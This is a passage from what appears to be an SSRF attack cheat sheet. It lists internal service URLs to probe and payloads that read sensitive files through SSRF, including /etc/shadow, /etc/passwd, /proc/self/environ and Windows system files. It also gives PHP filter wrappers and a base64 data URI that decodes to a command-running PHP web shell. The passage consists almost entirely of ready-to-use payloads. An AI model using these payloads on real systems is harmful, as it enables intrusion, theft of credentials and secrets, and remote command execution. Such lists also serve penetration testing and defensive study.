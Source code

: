 #### Service Enumeration
```bash
# Web services
http://192.168.1.100:80/
http://192.168.1.100:8080/admin/
http://192.168.1.100:8080/manager/html

# Database services
http://192.168.1.100:3306/     # MySQL
http://192.168.1.100:5432/     # PostgreSQL
http://192.168.1.100:27017/    # MongoDB

# Cache services
http://192.168.1.100:6379/     # Redis
http://192.168.1.100:11211/    # Memcached

# Message queues
http://192.168.1.100:5672/     # RabbitMQ
http://192.168.1.100:9092/     # Kafka

# Monitoring services
http://192.168.1.100:9200/     # Elasticsearch
http://192.168.1.100:3000/     # Grafana
http://192.168.1.100:9090/     # Prometheus
```

### 3. 📁 File System Access

#### Local File Inclusion via SSRF
```bash
# Unix/Linux files
file:///etc/passwd
file:///etc/shadow
file:///etc/hosts
file:///proc/version
file:///proc/self/environ
file:///proc/self/cmdline
file:///proc/self/cwd
file:///var/log/apache2/access.log
file:///var/log/nginx/access.log

# Windows files
file://C:/Windows/System32/drivers/etc/hosts
file://C:/boot.ini
file://C:/Windows/win.ini
file://C:/Windows/system.ini
file://C:/inetpub/logs/LogFiles/W3SVC1/
```

#### Advanced File Access Techniques
```bash
# PHP wrappers (if PHP is processing the request)
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/read=string.rot13/resource=/etc/passwd
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+

# FTP protocol for file access
ftp://user:pass@internal-ftp-server/sensitive-file.txt

# SMB/CIFS protocol
smb://internal-server/share/file.txt
```
